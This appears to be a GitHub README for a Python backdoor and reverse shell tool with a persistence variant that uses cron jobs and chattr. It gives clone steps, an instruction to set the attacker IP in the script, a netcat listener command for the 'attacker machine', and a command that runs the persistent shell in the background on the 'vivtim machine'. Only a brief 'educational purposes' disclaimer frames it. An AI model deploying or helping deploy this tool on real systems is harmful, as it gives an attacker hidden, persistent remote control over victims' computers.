 # ReverseShell | Written In <a href="https://www.python.org/"><img src="https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54" alt="Python Badge"/></a>
- A python3 backdoor/reverseshell.
- shell.py is the single reverseshell without cronjob and chattr function

![backd](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/backd_profile.jpeg)

## How to use:snake:?

Clone the repo:
```
git clone https://github.com/Keyj33k/ReverseShell.git
```

After successful cloning:
```
cd ReverseShell
```

Or download the zip:
- https://github.com/Keyj33k/ReverseShell/archive/refs/heads/main.zip

## You will find a file called >> reverseshell.py:

- Now you need to change the ip in the script.

## After saving your settings you can test it:

- On the attacker machine:
```
nc -lnvp 5003
```

- On the vivtim machine:
```
python3 reverseshell_persis.py &
```
# Explained:

![listener](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/reverseshell.jpeg)

Note:
- This tool is only for educational purposes. 
- I'm not responsible for your actions. 
- Don't hack anyone without their permissions.
- With great force follows great responsibility.

---
![pypy](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/pypy.jpeg)
---

# Thank you
<div id="badges">
  <a href="https://www.instagram.com/keyjeek/">
    <img src="https://img.shields.io/badge/instagram-%23E4405F.svg?style=for-the-badge&logo=Instagram&logoColor=white" alt="Instagram Badge"/>
  </a>
  <a href="https://github.com/Keyj33k">
    <img src="https://img.shields.io/badge/github-%23121011.svg?style=for-the-badge&logo=github&logoColor=white" alt="Github Badge"/>
  </a>
  <a href="https://twitter.com/keyjeek">
    <img src="https://img.shields.io/badge/Twitter-blue?style=for-the-badge&logo=twitter&logoColor=white" alt="Twitter Badge"/>
  </a>
</div>
